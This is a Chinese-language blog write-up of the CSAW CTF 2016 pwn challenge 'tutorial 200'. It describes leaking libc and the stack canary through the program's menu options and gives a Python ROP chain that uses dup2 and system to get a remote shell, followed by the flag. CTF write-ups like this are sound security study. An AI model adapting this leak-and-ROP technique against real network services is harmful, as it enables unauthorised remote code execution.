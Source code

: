 title: '[CSAW CTF 2016] tutorial 200'
author: briansp8210
tags:
  - CSAW CTF 2016
  - pwn
categories:
  - write-ups
date: 2016-09-20 22:42:00
---
# [CSAW CTF 2016] tutorial 200

> Category: pwn
> Point: 200
> Solver: briansp8210 @ BambooFox	

tutorial
==========
由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

解題流程
----------
程式一開始會建立 socket 連線，然後執行 ```fork``` 後進入 ```menu(int socket)``` 選單。
* 選項 1 會輸出 ```puts()``` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  ```rbp-320``` ，所以這裡可以 leak 出位於 ```rbp-8``` 的 canary。

```C
write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
write(socket_num, ">", 1uLL);
read(socket_num, &s, 460uLL);
write(socket_num, &s, 324uLL);
```
* 選項 3 離開程式。

----------
有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 ```system``` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 ```fork```，這邊直接叫 ```system``` 的話 file descriptor 會接不起來。所以我們要先用 ```dup2()``` 把 fd 設好才行。
由於前面呼叫 ```read```  時已經把 rdi 設成我們要的值了，所以用 ```dup2``` 之前只要再把 rsi 設好即可。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	 p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	 p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 ```accept``` 的回傳值送給 ```stdin``` 和 ```stdout``` 之後 call ```system``` 就可以拿到 shell 了。

	FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
